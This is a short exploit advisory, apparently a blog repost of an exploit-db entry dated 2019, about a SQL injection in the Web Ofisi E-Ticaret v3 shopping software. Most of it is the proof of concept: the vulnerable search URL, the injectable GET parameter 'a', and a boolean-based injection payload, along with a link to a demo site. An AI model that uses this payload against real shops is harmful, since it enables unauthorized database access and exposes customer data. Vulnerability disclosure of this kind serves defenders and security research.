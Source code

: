 ```yaml
---
layout:     post
title:      "Web Ofisi E-Ticaret 3 - 'a' SQL Injection"
date:       2019-07-19 12:00
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Web Ofisi E-Ticaret 3 - 'a' SQL Injection
# Date: 2019-07-19
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://www.web-ofisi.com/detay/e-ticaret-v3-sanal-pos.html
# Demo Site: http://demobul.net/eticaretv3/
# Version: v3
# Tested on: Kali Linux
# CVE: N/A

----- PoC: SQLi -----

Request: http://localhost/[PATH]/ara.html?a=
Vulnerable Parameter: a (GET)
Payload: e%' AND 3*2*1=6 AND '0002ZIf'!='0002ZIf%

